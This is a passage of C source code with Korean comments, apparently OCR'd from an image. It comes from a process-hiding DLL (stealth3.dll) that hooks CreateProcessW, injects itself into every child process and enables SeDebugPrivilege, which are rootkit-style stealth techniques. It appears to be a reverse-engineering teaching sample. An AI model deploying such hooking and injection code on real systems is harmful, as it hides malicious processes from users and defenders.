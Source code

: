 ```c
                                     lpStartupInfo,
                                     lpProcessInformation);

    // 생성된 자식 프로세스에 stealth3.dll 을 인젝션 시킴
    if( bRet )
        InjectDll2(lpProcessInformation->hProcess, STR_MODULE_NAME);

    return bRet;
}

BOOL WINAPI NewCreateProcessW(
    LPCTSTR lpApplicationName,
    LPTSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCTSTR lpCurrentDirectory,
    LPSTARTUPINFO lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation
)
{
    BOOL bRet;
    FARPROC pFunc;

    // original API 호출
    pFunc = GetProcAddress(GetModuleHandleA("kernel32.dll"), "CreateProcessW");
    pFunc = (FARPROC)((DWORD)pFunc + 2);
    bRet = ((PFCREATEPROCESSW)pFunc)(lpApplicationName,
                                     lpCommandLine,
                                     lpProcessAttributes,
                                     lpThreadAttributes,
                                     bInheritHandles,
                                     dwCreationFlags,
                                     lpEnvironment,
                                     lpCurrentDirectory,
                                     lpStartupInfo,
                                     lpProcessInformation);

    // 생성된 자식 프로세스에 stealth3.dll 을 인젝션 시킴
    if( bRet )
        InjectDll2(lpProcessInformation->hProcess, STR_MODULE_NAME);

    return bRet;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    char            szCurProc[MAX_PATH] = {0,};
    char            *p = NULL;

    // HideProc2.exe 프로세스에는 인젝션 되지 않도록 예외처리
    GetModuleFileNameA(NULL, szCurProc, MAX_PATH);
    p = strrchr(szCurProc, '\\');
    if( (p != NULL) && !_stricmp(p+1, "HideProc2.exe") )
        return TRUE;

    // change privilege
    SetPrivilege(SE_DEBUG_NAME, TRUE);

    switch( fdwReason )
    {
```